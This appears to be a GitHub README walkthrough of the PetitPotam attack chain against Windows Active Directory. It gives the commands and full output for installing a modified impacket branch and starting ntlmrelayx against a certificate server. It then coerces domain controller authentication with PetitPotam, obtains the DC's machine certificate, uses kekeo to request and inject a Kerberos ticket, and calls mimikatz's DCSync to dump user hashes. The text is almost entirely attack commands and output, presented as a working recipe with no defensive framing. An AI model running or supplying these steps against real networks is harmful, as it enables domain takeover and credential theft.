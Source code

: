 install special ntlmrelayx 

	mkdir dev  
	cd dev  
	git clone https://github.com/ExAndroidDev/impacket.git  
	cd impacket  
	git switch ntlmrelayx-adcs-attack  
	sudo python3 ./setup.py install
	
Start ntlmrelayx server
You need to detect cert server ip

	┌──(kali㉿kali)-[~/Desktop/petitpotam/impacket/examples]
	└─$ sudo python3 ntlmrelayx.py -debug -smb2support --target http://<cert server>/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20210815.200803.5fd22878-py3.9.egg/impacket
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client SMB loaded..
	[*] Protocol Client DCSYNC loaded..
	[+] Protocol Attack DCSYNC loaded..
	[+] Protocol Attack LDAP loaded..
	[+] Protocol Attack LDAPS loaded..
	[+] Protocol Attack MSSQL loaded..
	[+] Protocol Attack IMAP loaded..
	[+] Protocol Attack IMAPS loaded..
	[+] Protocol Attack RPC loaded..
	[+] Protocol Attack HTTP loaded..
	[+] Protocol Attack HTTPS loaded..
	[+] Protocol Attack SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server

	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	
	
	
initiate Petitpotam attack


	┌──(kali㉿kali)-[~/Desktop/petitpotam/PetitPotam]
	└─$ python3 PetitPotam.py <listen server> <dc ip>                                                                                                       


				  ___            _        _      _        ___            _                     
				 | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
				 |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
				_|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
			  _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
			  "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

				  PoC to elicit machine account authentication via some MS-EFSRPC functions
										  by topotam (@topotam77)

						 Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



	[-] Connecting to ncacn_np:<dc ip>[\PIPE\lsarpc]
	[+] Connected!
	[+] Binding to c68....7e
	[+] Successfully bound!
	[-] Sending EfsRpcOpenFileRaw!
	.
	.



check back ntlmrelayx server


	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Generating CSR...
	[*] CSR generated!
	[*] Getting certificate...
	[*] GOT CERTIFICATE!
	[*] Base64 certificate of user DC$: 
	MIIShQIBAzCCEk8GCSqGSIb3DQEHAaCCEkAEghI8MIISODCCCGcGCSqGSIb3DQEHBqCCCFgwgghUAgEAMIIITQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQI1bw80uoT1OECAggAgIIIIGPwCalx5il1r7k/....cCgQIixsKtYEYD3M=
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	
	
	
Start kekeo and craft a ticket

	kekeo\x64> .\kekeo.exe

	  ___ _    kekeo 2.1 (x64) built on Jul 23 2021 20:56:45
	 /   ('>-  "A La Vie, A L'Amour"
	 | K  |    /* * *
	 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
												 with 10 modules * * */

	kekeo # base64
	isBase64InterceptInput  is false
	isBase64InterceptOutput is false

	kekeo # base64 /input:on
	isBase64InterceptInput  is true
	isBase64InterceptOutput is false

	kekeo # tgt::ask /pfx:MIIShQIBAzCCEk8GCSq...QcCgQIixsKtYEYD3M= /user:DC$ /domain:<domain name> /ptt
	Realm        : <domain name>(<domain name>)
	User         : <DC>$ (<DC>$)
	CName        : <DC>$        [KRB_NT_PRINCIPAL (1)]
	SName        : krbtgt/<domain name>  [KRB_NT_SRV_INST (2)]
	Need PAC     : Yes
	Auth mode    : RSA
	[kdc] name: ..... (auto)
	[kdc] addr: ... (auto)
	 > krbtgt/<Domain name> : OK!

	kekeo #
	

Get user hash with mimikatz

	x64> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # lsadump::dcsync /domain:<domain> /user:<user>